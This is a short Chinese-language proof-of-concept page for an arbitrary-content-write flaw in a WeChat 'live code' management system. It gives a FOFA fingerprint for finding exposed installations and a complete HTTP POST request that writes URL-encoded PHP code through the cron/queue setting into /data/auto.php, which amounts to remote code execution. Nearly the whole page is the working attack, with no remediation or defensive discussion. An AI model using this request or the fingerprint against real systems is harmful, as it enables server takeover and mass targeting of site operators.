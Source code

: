 # 微信活码系统后台任意内容写入

## fofa

```javascript
body=".qn-user-login"
```

## poc

```javascript
POST /index.php?s=/manage/cron/index HTTP/1.1
Host: 192.168.18.137
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Cookie: think_language=zh-CN; PHPSESSID=6e7n0os6qsvnlsthdns1dj1n95; qn_admin_think_language=zh-CN; qn_admin___forward__=%2Findex.php%3Fs%3D%2Fmanage%2Fconfig%2Findex; qn_admin_video_get_info=%2Findex.php%3Fs%3D%2Fhome%2Fpublic%2Fgetvideo
Priority: u=0
X-Requested-With: XMLHttpRequest
Origin: http://192.168.18.137
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Referer: http://192.168.18.137/index.php?s=/manage/cron/index
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 38

QUEUE_SET=%3C%3Fphp+phpinfo()%3B%3F%3E
```

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411201420483.png)

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411201421522.png)

文件地址：`/data/auto.php`